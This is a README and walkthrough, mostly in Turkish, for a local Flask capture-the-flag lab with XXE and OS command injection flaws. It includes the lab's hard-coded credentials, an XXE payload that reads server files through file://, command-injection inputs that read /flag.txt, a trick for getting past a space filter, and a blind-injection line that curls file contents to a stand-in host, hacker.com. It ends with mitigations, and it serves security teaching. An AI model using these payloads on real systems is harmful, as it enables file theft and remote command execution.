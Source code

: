 # xxe-oscommandinjection-lab
xxe and os command injection lab wich runs in local host

Dosyayı indirdikten sonra siteyi localhosta ayağa kaldırın.
sudo python3 app.py

![image](https://github.com/user-attachments/assets/ffb56d8b-f478-4e4e-98e6-41133167f877)

Lab artık çözmeye hazır.

![image](https://github.com/user-attachments/assets/193b4cd2-421e-463d-97ec-78f79a321393)

# Siber Güvenlik Laboratuvarında Flag.txt Dosyasını Ele Geçirmek: Detaylı Çözüm Rehberi

Bu yazıda, Flask framework'ü kullanılarak oluşturulmuş bir siber güvenlik laboratuvarını detaylı şekilde inceleyeceğiz. Amacımız, uygulamadaki güvenlik açıklarını tespit ederek **flag.txt** dosyasına erişim sağlamak. Her bir zafiyeti detaylı şekilde açıklayıp adım adım çözüm yollarını göstereceğiz.

---

## Aşama 1: Genel Sistem Analizi

Kodun genel yapısına baktığımızda, uygulama şu işlevselliklere sahip:

1. **Kullanıcı Girişi**:
   - XML tabanlı giriş doğrulama mekanizması mevcut.
   - Kullanıcı adı ve parola sabitlenmiş:  
     ```
     USERNAME = 'gtucyber'
     PASSWORD = 'turkcell@34000'
     ```

2. **Ping İşlevi**:
   - Kullanıcının, belirtilen bir IP adresine `ping` komutları çalıştırmasına izin veriliyor.
   - Bazı endpointlerde temel güvenlik kontrolleri bulunuyor.

3. **Hassas Dosyaya (flag.txt) Erişim**:
   - Amaç, sunucudaki `flag.txt` dosyasını ele geçirmek.

---

## Aşama 2: XXE (XML External Entity) Saldırısı

### Zafiyetin Keşfi

`/login` endpointindeki kodu inceleyelim:

```python
parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
DOMTree = etree.fromstring(request.data, parser)

username = DOMTree.find("username").text
password = DOMTree.find("password").text
```

Burada **`load_dtd=True`** ve **`resolve_entities=True`** parametreleri, uygulamanın dış kaynaklı XML varlıklarını çözmesine izin veriyor. Bu durum **XXE zafiyeti**ne yol açar.

---

### XXE Nedir?

**XML External Entity (XXE)**, bir XML dosyasının dış kaynaklardan gelen varlıkları çözümlemesine izin verdiği durumlarda oluşan bir güvenlik açığıdır. Bu açık, sunucudaki hassas dosyalara erişim sağlanmasına veya uzaktan dosya yükleme işlemlerine olanak tanır.

---

### Payload Oluşturma ve Saldırı

Hedefimiz, kaynak kodunu okumak. Bu sayede logini aşacak bir adım bulabiliriz. Aşağıdaki gibi bir XML payload'ı oluşturabiliriz:

```xml
<!DOCTYPE foo [ 
  <!ELEMENT username (#PCDATA)>
  <!ELEMENT password (#PCDATA)>
  <!ENTITY xxe SYSTEM "file:///path/to/app.py">
]>
<credentials>
  <username>&xxe;</username>
  <password>dummy</password>
</credentials>
```


Bu payload şunları yapar:

1. Bir dış varlık tanımlar (**`<!ENTITY>`**).
2. Sunucunun dosya sistemindeki hassas dosyayı okur (**`file:///path/to/app.py`**).
3. Sonuçta, kullanıcı adı alanına bu dosyanın içeriğini yerleştirir.

---

### Payload'ı Gönderme

Bu payload'ı, bir araç kullanarak (ör. **Burp Suite**, **Postman**) şu şekilde gönderin:

**HTTP İsteği:**

![image](https://github.com/user-attachments/assets/5eca91d2-5888-4784-99b4-825e39f28c74)


Elde edilen yanıt, `app.py` dosyasının içeriğini gösterecektir:

```xml
<result>
  <username>app.py ın içeriği</username>
  <password>dummy</password>
</result>
```

---

## Aşama 3: Komut Enjeksiyonu (Command Injection)

### Zafiyetin Keşfi

Kodda `/ping`, `/filter`, ve `/blind` endpointleri, kullanıcının girdiği IP adreslerini bir sistem komutunda kullanıyor:

```python
command = 'ping -c 4 {}'.format(ip_address)
result = os.popen(command).read()
```

Bu yöntem, kullanıcının `ip_address` parametresi üzerinden sisteme keyfi komutlar ekleyebileceği anlamına gelir. Örneğin:

```
127.0.0.1; cat /flag.txt
```

Bu giriş, aşağıdaki gibi bir sistem komutuna dönüşür:

```bash
ping -c 4 127.0.0.1; cat /flag.txt
```

---

### `/filter` Endpointindeki Kısıtlamaları Aşma

`/filter` endpointinde boşluk kontrolü yapılmakta:

```python
if ' ' in ip_address:
    return render_template('error.html')
```

Bu kısıtlamayı aşmak için şu yöntemleri kullanabilirsiniz:

1. **URL Encoding**:
   ```
   127.0.0.1%0Acat%20/flag.txt
   ```

2. **Alternatif Komut Ayırıcılar**:
   - Unix sistemlerinde `;`, `&&`, veya `|` gibi ayırıcılar kullanılabilir.

**Örnek Giriş**:

```
127.0.0.1;cat /flag.txt
```

**Sonuç**:
Ping çıktısının ardından `flag.txt` dosyasının içeriği görüntülenir.

---

### Blind Command Injection

`/blind` endpointinde komutların çıktısı doğrudan kullanıcıya gösterilmiyor. Ancak komutun sonuçlarını bizim kontrol ettiğimiz bir servera göndererek zafiyeti kullanabiliriz:

```bash
127.0.0.1; curl -X POST -d "${cat%20flag.txt}" https://hacker.com  
```


---

## Güvenlik Önlemleri

Bu tür zafiyetlerden korunmak için şu yöntemleri uygulayın:

### XXE Koruması:
- **DTD** çözümlemesini devre dışı bırakın:
  ```python
  parser = etree.XMLParser(load_dtd=False)
  ```

- **XML Yerine JSON**: XML yerine JSON formatını kullanmak XXE riskini tamamen ortadan kaldırır.

---

### Komut Enjeksiyonu Koruması:
- Kullanıcı girdilerini çalıştırmadan önce doğrulayın ve temizleyin.
- Komut çalıştırmak için `subprocess.run` kullanarak güvenli bir whitelist uygulayın:
  ```python
  subprocess.run(['ping', '-c', '4', ip_address], check=True)
  ```

---

## Sonuç

Bu laboratuvar, siber güvenlik dünyasında karşılaşılabilecek iki temel zafiyeti (XXE ve Command Injection) anlamak için mükemmel bir örnek sunar. Güvenli kodlama uygulamaları ve giriş doğrulama yöntemleri, bu tür zafiyetlerin önlenmesinde kritik öneme sahiptir.
